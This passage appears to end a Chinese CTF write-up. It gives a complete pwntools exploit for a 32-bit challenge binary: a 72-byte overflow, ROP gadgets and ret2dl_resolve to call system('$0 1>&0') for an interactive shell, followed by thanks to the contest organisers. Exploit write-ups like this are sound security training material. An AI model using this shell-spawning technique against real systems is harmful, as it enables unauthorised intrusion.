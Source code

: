 ```python

# info
# gadget
pr  = 0x08048379 # pop ebx ; ret
p3r = 0x080485d9 # pop esi ; pop edi ; pop ebp ; ret

# elf, libc
stage = elf.bss()

# rop1
dl_data,dl_call,stage = ret2dl_resolve_x86(elf,'system',stage+0x200,stage)

offset = 72
payload = 'A'*offset
payload += p32(elf.sym['read']) + p32(p3r) + p32(0) + p32(stage) + p32(len(dl_data)+8)
payload += dl_call + p32(pr) + p32(stage+len(dl_data))

ru('Are you the LEVEL5?\n')
sl(payload)
raw_input('go')
sl(dl_data+'$0 1>&0\0')

p.interactive()
```


# 结尾

这次春节蹭新生赛，真是涨了不少姿势，感谢出题的杭电师傅们，感谢[imagin](https://imagin.vip/)师傅的帐号~

